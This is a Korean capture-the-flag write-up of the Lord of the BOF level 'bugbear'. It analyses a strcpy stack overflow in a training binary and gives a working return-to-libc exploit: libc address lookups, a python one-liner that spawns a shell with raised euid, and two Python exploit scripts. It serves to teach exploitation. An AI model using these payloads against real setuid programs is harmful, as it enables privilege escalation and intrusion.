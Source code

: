 ```yaml
---
title: "[LOB]Level13. bugbear"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[RTL : Return To Library](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소`\xbf`를 필터링 한다.

즉, `\xbf`로 시작하는 주소를 리턴 주소로 할 수 없다. 그래서 생각나는 기법이**라이브러리 함수를 사용하는 RTL(Return To Library)기법이다.**



##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

-----

### 0x02. Exploit

```
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```



-----



```python
import struct
import os

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkknight/bugbear"

system = 0x40058ae0
libc_addr = 0x40018000
bin_sh_offset = 0xe3ff9

payload = "\x90"*44
payload = append(p32(system))
payload = append("\x90"*4)
payload = append(p32(libc_addr + bin_sh_offset))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

```python
import struct
import os

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkknight/bugbear"

system = 0x40058ae0
libc_addr = 0x40018000
bin_sh_offset = 0xe3ff9
exit = 0x400391e0

payload = "\x90"*44
payload = append(p32(system))
payload = append(p32(exit))
payload = append(p32(libc_addr + bin_sh_offset))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----

